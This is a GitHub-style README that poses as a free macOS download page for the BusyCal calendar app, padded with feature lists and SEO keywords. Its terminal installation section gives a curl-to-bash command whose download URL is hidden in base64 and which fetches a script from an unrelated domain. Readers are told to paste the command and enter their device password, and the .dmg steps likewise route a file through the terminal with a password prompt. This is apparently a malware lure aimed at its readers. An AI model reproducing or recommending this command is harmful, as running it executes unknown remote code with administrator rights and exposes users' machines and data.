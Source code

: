 # BusyCal — Download For Mac OS 🗓️
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple211/v4/c0/52/16/c0521670-0ea1-5dda-055d-11d886f647f2/BusyCal.png/1200x630bb.png)

BusyCal is a powerful, user-friendly calendar app for Mac OS, designed to streamline your scheduling and boost productivity. Follow the instructions below to install BusyCal for free and unlock advanced calendar management features.

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/busycal)

If you encounter issues downloading via the button above, follow the terminal command installation instructions below.

## 📦 How to Install BusyCal For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🕒 **Advanced Event Management**: Create, edit, and manage events with ease, including recurring events and time zone support.
- 📋 **Customizable Views**: Choose from daily, weekly, monthly, or yearly views to suit your planning style.
- 🔄 **Sync Across Devices**: Seamlessly sync with iCloud, Google Calendar, and other services for real-time updates.
- 🔔 **Smart Reminders**: Set custom alerts and notifications to stay on top of your schedule.
- 🎨 **Personalized Design**: Customize colors, fonts, and layouts to make BusyCal your own.
- ⚡ **Performance Optimized**: Enjoy fast, reliable performance even with large calendars.

## About BusyCal

BusyCal is a premier calendar application for Mac OS, renowned for its robust features and intuitive interface. Designed for professionals, students, and anyone seeking an efficient scheduling solution, BusyCal offers unparalleled flexibility in managing your time. With support for multiple calendar services, including iCloud, Google Calendar, and Exchange, it ensures your events are always up-to-date across devices. Its SEO-friendly design makes it easy to find when searching for terms like *calendar app for Mac* or *BusyCal free download*.

One of BusyCal’s standout features is its customizable views, allowing users to tailor their calendar experience to their specific needs. Whether you prefer a detailed daily agenda or a broad monthly overview, BusyCal delivers a seamless experience. The app’s smart filters and tags help you organize events effortlessly, making it a top choice for those searching for *productivity tools for Mac*. Its clean, macOS-native design ensures it blends perfectly with your system, enhancing both aesthetics and functionality.

BusyCal also excels in event management, offering tools to create complex recurring events, set time zone-specific schedules, and integrate to-do lists. This makes it ideal for users looking for *Mac calendar software* with advanced capabilities. The app’s drag-and-drop interface simplifies scheduling, while its robust reminder system ensures you never miss an appointment. For those exploring *free calendar apps for Mac*, BusyCal’s free download option provides a great entry point.

Security and performance are at the core of BusyCal’s design. The app is optimized to handle large calendars without lag, making it a reliable choice for power users. Its compatibility with macOS ensures smooth integration with other native apps, enhancing your workflow. For those searching for *best calendar app for Mac*, BusyCal consistently ranks high due to its balance of power and simplicity.

### Why Choose BusyCal?

BusyCal stands out among other calendar apps due to its combination of advanced features and user-friendly design. Unlike basic calendar tools, BusyCal offers deep customization, cross-platform syncing, and powerful event management tools, making it a favorite for professionals and casual users alike. Its free download availability, combined with its robust feature set, positions it as a must-have for anyone seeking a *Mac productivity app* that delivers results.

## 🖼 Preview

![BusyCal Main Interface](https://downloads.busymac.com/resources/img/busycal-mac/videos/fav_timezone_copy_web_poster.png)  
*BusyCal’s clean and intuitive main calendar interface*

![Event Creation](https://downloads.busymac.com/resources/img/busycal-mac/videos/filter_mode_web_poster.png)  
*Creating a new event with advanced options in BusyCal*

![Customizable Views](https://downloads.busymac.com/resources/img/busycal-mac/videos/starring_tasks_web_poster.png)  
*Switching between daily, weekly, and monthly views in BusyCal*

## 🔍 Tags

busycal, busycal for mac, busycal ios, BusyCal free download, BusyCal installation guide, busycal download, busycal free, busycal download free, free busycal download, busycal mac, busycal mac os, busycal for mac
